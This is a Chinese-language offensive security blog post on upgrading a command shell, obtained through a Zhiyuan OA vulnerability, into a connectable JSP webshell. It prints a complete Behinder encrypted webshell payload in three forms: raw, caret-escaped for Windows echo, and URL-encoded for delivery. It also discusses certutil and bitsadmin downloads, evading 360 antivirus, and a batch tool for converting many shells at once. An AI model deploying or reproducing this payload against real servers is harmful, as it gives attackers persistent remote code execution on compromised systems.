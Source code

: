 # 如何优雅的把cmdshell升级为一句话


```
2019-7-11 自己发在土司的文章
```
<meta name="referrer" content="no-referrer" />

## 前言

前一段时间致远OA的洞坑了不少公司

自己也复现了一下  但是有个很恶心的问题就是  默认的payload是有长度限制的并且只是一个cmd的shell

Linux的shell还比较灵活  但是win的来说就不太方便了

特别是配合上恶心的url编码在浏览器里面遇到反斜杠就gg

那么怎么把cmdshell优雅的转化为可以连接的一句话呢

看了以前的帖子大概有这几个办法

```
Js+cscript
Certutil +base64
Win7以上还有bitsadmin  
Ps 
等等等等
```

Bitsadmin就不说了

Certutil跟cscript远程下载其实也不错

但是有两个问题

**1 如果主机不通外网就gg**

 **2 360会拦截**

综合来说都有自己的不足之处

还是一句话echo最稳了

自己也研究了一下  但是用echo写马有两个天坑

### 1.win的尖括号转义

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900392655-fe8dc941-072a-4d46-82eb-5b68e47a18bc.png)

Win的尖括号要用^来转义而不是反斜杠

如果你要是放到引号里会把引号一起打印出来

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900392731-d0b310f9-32c7-4d93-b401-4e5b587ae81e.png)

### 2. 沙雕url编码

[https://www.cnblogs.com/i80386/p/4576699.html](https:_www.cnblogs.com_i80386_p_4576699)

大家可以自己去网上找一下帖子到底url编码有多混乱。。。。

这里就说说python的requests模块的url编码

经过测试

```
空格=>%20
%空格=>%%20
%20=>%20
```

也就是说  他在默认遇到百分号开头的字符串的时候  request模块会把它当做已经编码过的字符  直接发送过去

但是他就带来个问题不会自动编码百分号

所以你只把尖括号跟百分号转义过后的payload放到py脚本里还是不能正常执行

这里偷了个懒直接找的在线网站，把它编码一遍再放到python里

http://tool.chinaz.com/tools/urlencode.aspx

## 综上：

原来payload（冰蝎为例）

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

尖括号转义=>

```
^<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%^>
```

url编码=>

```
%5e%3c%25%40page+import%3d%22java.util.*%2cjavax.crypto.*%2cjavax.crypto.spec.*%22%25%5e%3e%5e%3c%25!class+U+extends+ClassLoader%7bU(ClassLoader+c)%7bsuper(c)%3b%7dpublic+Class+g(byte+%5b%5db)%7breturn+super.defineClass(b%2c0%2cb.length)%3b%7d%7d%25%5e%3e%5e%3c%25if(request.getParameter(%22pass%22)!%3dnull)%7bString+k%3d(%22%22%2bUUID.randomUUID()).replace(%22-%22%2c%22%22).substring(16)%3bsession.putValue(%22u%22%2ck)%3bout.print(k)%3breturn%3b%7dCipher+c%3dCipher.getInstance(%22AES%22)%3bc.init(2%2cnew+SecretKeySpec((session.getValue(%22u%22)%2b%22%22).getBytes()%2c%22AES%22))%3bnew+U(this.getClass().getClassLoader()).g(c.doFinal(new+sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3b%25%5e%3e
```

然后写个轮子

就可以批量cmd转一句话啦

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900392835-f42135c4-5a63-41ef-bbdb-3daf1c01ea85.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900392930-b63b0066-9e09-40f7-84a8-ed3f3f7b8125.png)

写了个脚本

支持批量检测跟单个检测

如果是

```
http://
```

开头的就识别成单个

xxx.txt就是批量

需要设置一下脚本里面的cmdshell地址跟密码

## 项目地址：

https://github.com/yzddmr6/cmd2bx

TCV: 0
